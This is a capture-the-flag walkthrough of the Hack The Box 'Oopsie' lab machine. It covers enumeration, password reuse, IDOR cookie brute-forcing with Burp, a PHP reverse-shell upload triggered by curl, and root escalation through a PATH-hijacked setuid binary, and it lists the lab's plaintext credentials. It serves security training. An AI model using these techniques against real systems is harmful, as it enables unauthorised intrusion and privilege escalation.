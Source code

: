 Hack The Box :: Starting Point :: Oopsie :: Linux

# Enumeration

`nmap -sS -A 10.10.10.28`
[nmap.webp](../_resources/6dbd26a9b7ba9a4408093e5c7245fd01.webp)

Nmap reveals reveals that SSH and Apache are available on their default ports. Let's check out the website.

[website.webp](../_resources/82115d1e6848750375d02731c77703a0.webp)

It seems to be a website for the electric vehicle manufacturer MegaCorp. Scrolling down, we note that a reference is made to logging in.

![](../_resources/7b1c3b5aacf569de0bab2d7fcb0459fc.png)

We can't see anything else of interest, so let's send the request to a web proxy such as Burp, so we can examine the website in more detail. We point the browser to the Burp proxy at `127.0.0.1:8080`, refresh the page, and forward the request.

On the `Target` tab, we notice that Burp has passively spidered the website while processing the request.

[spider.webp](../_resources/fc227f7d7132bc8fbd2b2816347c6cf5.webp)

The URL **/cdn-cgi/login** seems interesting, let's examine this in the browser.

[login.webp](../_resources/5e0620787d4f1b4037d655db5cabc694.webp)

We confirm that this is a login page. Let's try to reuse the password `MEGACORP_4dm1n!!` from the previously compromised machine, with common usernames such as **administrator** or **admin** .

This is successful, and we gain access to the web portal, which contains additional functionality.

[portal.webp](../_resources/df760b2ff73a25487302ad1300cd30ce.webp)

However, it seems the developer has implemented tiers of administration, and the `Uploads` page is further restricted to the **super admin** user.

Let's examine the portal further in Burp. We refresh on the `Accounts` page, which displays the user id for our current user, and intercept the request. We notice what seems to be a custom cookie implementation, comprising of the **user** value and **role**. We also notice the **id** parameter, which for our current `admin` user is `1`.

![](../_resources/9519f0904eda2b3aee231607306b24b9.png)

It might be possible to brute force the **id** values, and display the **user** value for another user, such as the super admin account. We can do this using Burp's Intruder module. Click CTRL + i to sent the request to Intruder.

![](../_resources/1a8bc5a98626b159f6bbeedf7d8bb3be.png)

We press `Clear` to remove the pre-populated payload positions, select the Id value (1), and click `Add`. Next, click on the `Payloads` tab.

We can generate a sequential list of 1-100 using a simple bash loop.
`for i in `seq 1 100`; do echo $i; done`
Paste the output into the Payloads box.
![](../_resources/f70607965c39549088e058d17957a37c.png)

Next, click on the `Options` tab, and ensure that `Follow Redirections`is set to "Always", and select the option to "Process cookies in redirections".

![](../_resources/3918de8d2d6d40a2d6291437f28f6110.png)

Click on the `Target` tab, and then click `Start attack`. We sort responses by Length, and view the results.

![](../_resources/295922f449db884eff86a9bb97fe5208.png)

A few of a responses have a different length, and we proceed to examine them. The super admin account is visible, and corresponding user value is identified.

![](../_resources/ba59c3e69aa24fc6cf186d2a090151b6.png)

Let's try to access the `Uploads` page again, substituting our user value with the super admins.

![](../_resources/0a97096d3963d64fad43d2d8bfc1c395.png)

# Foothold

This is successful, and we gain access to the upload page, which allows branding images to be uploaded.

[uploads_page.webp](../_resources/f0fa3c77e874b7f178c78a4cf3780d08.webp)

It's possible that the developer forgot to implement user input validation, and so we should test if we can upload other files, such as a PHP webshell. On Parrot-OS, we can use the PHP reverse shell `/usr/share/webshells/php/php-reverse-shell.php`.

After changing the IP and port values, we upload the file, capture the request, substitute the user value as before, and click Forward.

Page text reports that the upload was successful, but we don't know where the reverse shell was uploaded to. Let's enumerate the web server for common directories using [dirsearch](https://github.com/maurosoria/dirsearch).

	git clone https://github.com/maurosoria/dirsearch.git
	cd dirsearch
	python3 dirsearch.py -u http://10.10.10.28 -e php

[dirsearch.webp](../_resources/c18d84fbbd68b8978e8ba2842098a21f.webp)

This identified an uploads directory, and we can set up our listener and trigger a reverse shell using curl.

`curl http://10.10.10.28/uploads/test.php`
We land a shell as `www-data` and proceed to upgrade it.
[shell.webp](../_resources/cda39aed9c6101f2ca629f1c8e5fb270.webp)

	SHELL=/bin/bash script -q /dev/null
	Ctrl-Z
	stty raw -echo
	fg
	reset
	xterm

# Lateral Movement

The website records are probably retrieved from a database, so it's a good idea to check for database connection information. Indeed, `db.php` does contain credentials, and we can `su robert` to move laterally.

[db.webp](../_resources/cee1359d9c026579456af1feab7b5269.webp)

# Privilege Escalation

The `id` command reveals that **robert** is a member of the **bugracker** group. We can enumerate the filesystem to see if this group has any special access.

[group.webp](../_resources/725bedb258ed7c37f484d86f6d195594.webp)

There is a `bugtracker` binary, and the setuid but is set. Let's run it and see what it does.

[bugtracker.webp](../_resources/cb7fc547fc316cb1ed16976ac1d32075.webp)

It seems to output a report based on the ID value provided. Let's use strings to see how it does this.

[strings.webp](../_resources/225685be9139569d2fa043611ff119a8.webp)

We see that it calls the `cat` binary using this relative path instead of the absolute path. By creating a malicious `cat`, and modifying the path to include the current working directory, we should be able to abuse this misconfiguration, and escalate our privileges to root.

Let's add the current working directory to PATH, create the malicious binary and make it executable.

	export PATH=/tmp:$PATH
	cd /tmp/
	echo '/bin/sh' > cat
	chmod +x cat

[root.webp](../_resources/fd561f34b5ed37a3a8247d9830f38b20.webp)

# Post Exploitation

Inside root's folder, we see a .config folder, which contains a FileZilla config file with the credentials **ftpuser / mc@F1l3ZilL4** visible in plain text.